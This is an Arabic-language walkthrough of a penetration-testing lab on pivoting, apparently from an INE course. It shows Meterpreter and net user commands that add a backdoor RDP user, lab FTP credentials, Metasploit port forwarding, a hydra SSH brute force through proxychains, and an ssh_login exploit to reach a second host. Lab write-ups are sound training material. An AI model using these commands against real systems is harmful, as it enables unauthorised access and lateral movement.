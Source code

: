 طبعا حنا نعرف انه في الدومين الاول شغال عليه بورت 3389 ف خلونا نسوي يوزر جديد على النظام ونحاول ندخل بالـ RDP  
```bash
sessions -i 1  
shell  
net user guest_1 guestpwd /add  
net localgroup "Remote Desktop Users" guest_1 /add  
net user  
```  
نشوف انه تم اضافة اليوزر خلونا نجرب الان ندخل عن طريق الـ RDP  
```bash
xfreerdp /u:guest_1 /p:guestpwd /v:demo.ine.local  
y  
```  
الان دخلنا تمام خلونا نشوف وين برنامج FileZilla  
طبعا هذا البرنامج يستخدم بروتوكول FTP عشان ينقل الملفات  
طيب الان حصلنا البرنامج نلاحظ فوق انه طالب منا Host , Username , Password , Port وهذي كلها معنا  
```bash
Host: 10.0.21.78  
Username: admin  
Password: FTPStrongPwd  
Port: 21  
```  
الان نسوي Quickconnect  
نشوف انه تم الاتصال وحصلنا على السيرفر ملف اسمه username.txt  
طيب خلونا نحمل الملف ونقرا المحتوى  
نشوف انه حصلنا 3 يوزرت  
```bash
administrator  
sysadmin  
student  
```  
طبعا راح ناخذ اقوى يوزر عندنا والي هو administrator  
خلونا نرجع للميتاسبلويت الان ونسوي portforward  
```bash
CTRL + C  
y  
portfwd add -l 1234 -p 22 -r 10.0.21.78  
portfwd list  
```  
حلو الان خلونا نفحص بورت 1234 على اللوكال عن طريق الـ nmap  
```bash
nmap -sV -p 1234 localhost  
```  
حلو الان خلونا نسوي بروت فورس على يوزر administrator عشان نحاول نتصل بالـ SSH  
```bash
proxychains hydra -l administrator -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo1.ine.local ssh  
```  
نشوف انه حصلنا اليوزر والباسورد الي هو password1  
خلونا الان نجرب نتصل بالـ SSH عن طريق MSFconsole  
```bash
background  
use auxiliary/scanner/ssh/ssh_login  
show options  
set RHOSTS demo1.ine.local  
set USERNAME administrator  
set PASSWORD password1  
set gatherproof false  
exploit  
sessions  
```  
نشوف انه عطانا سيشن جديده الان واخذنا شيل على التارقت الثاني الي ماكان عندنا وصول له  
مطلوب الان نقرا الفلاق الي بالجهاز الي سوينا له بفتنق  
```bash
sessions -i 2  
dir C:\  
```